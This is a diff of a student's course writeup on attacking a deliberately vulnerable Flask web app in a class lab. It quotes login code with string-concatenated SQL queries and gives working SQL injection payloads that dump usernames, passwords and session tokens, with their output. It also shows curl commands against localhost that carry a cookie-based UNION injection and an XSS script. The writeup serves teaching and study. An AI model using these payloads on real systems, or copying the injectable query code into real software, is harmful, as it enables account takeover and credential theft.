

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_3/writeup.md, 2 parts joined by grey strips. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
aCVE-2024-1 done, next is aCVE-2024-2

````diff
--- a/Machine_Problem_3/writeup.md
+++ b/Machine_Problem_3/writeup.md
@@ -94,33 +96,33 @@ Take a look at this code, it is possible to perform SQL injection to it.
 ```python
 @app.route("/login", methods=["GET", "POST"])
 def login():
-    cur = con.cursor()
-    if request.method == "GET":
-        if request.cookies.get("session_token"):
-            res = cur.execute("SELECT username FROM users INNER JOIN sessions ON "
-                              + "users.id = sessions.user WHERE sessions.token = '"
-                              + request.cookies.get("session_token") + "'")
-            user = res.fetchone()
-            if user:
-                return redirect("/home")
+  cur = con.cursor()
+  if request.method == "GET":
+    if request.cookies.get("session_token"):
+      res = cur.execute("SELECT username FROM users INNER JOIN sessions ON "
+                          + "users.id = sessions.user WHERE sessions.token = '"
+                          + request.cookies.get("session_token") + "'")
+      user = res.fetchone()
+      if user:
+        return redirect("/home")
 
-        return render_template("login.html")
+    return render_template("login.html")
+  else:
+    res = cur.execute("SELECT id from users WHERE username = '"
+                  + request.form["username"]
+                  + "' AND password = '"
+                  + request.form["password"] + "'")
+    user = res.fetchone()
+    if user:
+      token = secrets.token_hex()
+      cur.execute("INSERT INTO sessions (user, token) VALUES ("
+                  + str(user[0]) + ", '" + token + "');")
+      con.commit()
+      response = redirect("/home")
+      response.set_cookie("session_token", token)
+      return response
     else:
-        res = cur.execute("SELECT id from users WHERE username = '"
-                    + request.form["username"]
-                    + "' AND password = '"
-                    + request.form["password"] + "'")
-        user = res.fetchone()
-        if user:
-            token = secrets.token_hex()
-            cur.execute("INSERT INTO sessions (user, token) VALUES ("
-                        + str(user[0]) + ", '" + token + "');")
-            con.commit()
-            response = redirect("/home")
-            response.set_cookie("session_token", token)
-            return response
-        else:
-            return render_template("login.html", error="Invalid username and/or password!")
+      return render_template("login.html", error="Invalid username and/or password!")
 ```
 
 Notice that the flow of this code redirects to the homepage when a session is present but proceeds to the login page when one is not.
@@ -194,13 +297,50 @@ This would mean that the SQL parameter would be similar to `SELECT id FROM users
+In the SQL query `INSERT INTO posts (message, user) VALUES ('...`, it is possible to dump the session tokens or even the username and password!
+
+This can be done by crafting the `message` that will interpret it as SQL query.
+
+```sql
+1', 1), ((SELECT GROUP_CONCAT(username || ':' || password, '<br>') FROM users), 1)--
+```
+
+And once executed, this should return the home page with its posts.
+
+```HTML
+...
+<li>1</li>
+<li>alice:12345678</li>
+...
+```
+
+And boom!
+**We are able to grab `alice`'s password!**
+And other users as well if they exists.
+
+Since we're able to grab the username and password, there's no need for the session tokens, right?
+Nah, we're still gonna do it.
+
+```sql
+1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--
+```
+
+And we're able to grab all the user sessions!
+
+```html
+<li>1</li>
+<li>1:e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65<br>1:2015e754b07fb37c28ee636725d04b8743f91333ac927fe9c0eeca512246fc9c<br>159:8e25b871df997f1f1b219b96a30bda9505a60168aeae51e7d2a011c12bdba184</li>
+```
+
+<li>1</li>
+<li>1:e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65<br>1:2015e754b07fb37c28ee636725d04b8743f91333ac927fe9c0eeca512246fc9c<br>159:8e25b871df997f1f1b219b96a30bda9505a60168aeae51e7d2a011c12bdba184</li>
 
 ---
 
 This will also create a new `session_token` every time.
-curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION select 24 from users; --&password="
 
 curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT '69420' as id, 'eli' as username FROM users LIMIT 1--" --data-raw 'message=<script>alert(window.origin); alert(177013)</script>'
 
 curl 'http://0.0.0.0:5000/home'  -H 'Cookie: session_token=f5c8541ad5f844d551a4fc9f2554b821b437232324d32260e6d260c4603dbf8a'
 
+
 ## Patching the vulnerabilities
 
 change code bro
````
Also changed, not shown: other parts of Machine_Problem_3/writeup.md (+103 -0 lines).
